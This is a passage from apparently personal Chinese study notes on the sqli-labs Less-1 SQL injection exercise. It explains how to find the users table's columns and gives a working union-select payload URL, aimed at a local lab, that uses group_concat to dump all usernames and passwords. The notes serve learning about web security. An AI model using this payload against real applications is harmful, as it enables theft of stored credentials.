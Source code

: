 接下来列举users的列名 ，同样也是用limit一个一个来，就知道字段有id，username，password 

也可以使用一种简单的方法：

直接使用 group_concat函数，该函数返回一个字符串结果，该结果由分组中的值连接组合而成 

http://127.0.0.1./Less-1/?id=-1' union select 1,group_concat(char(32),username,char(32)),group_concat(char(32),password,char(32)) from users --+

<img src="C:/Users/Administrator/Desktop/%7B%7B%20site.url%20%7D%7D/assets/blog_images/sqli-labs_01_12.png" />

(个人学习笔记，部分转自互联网)













 








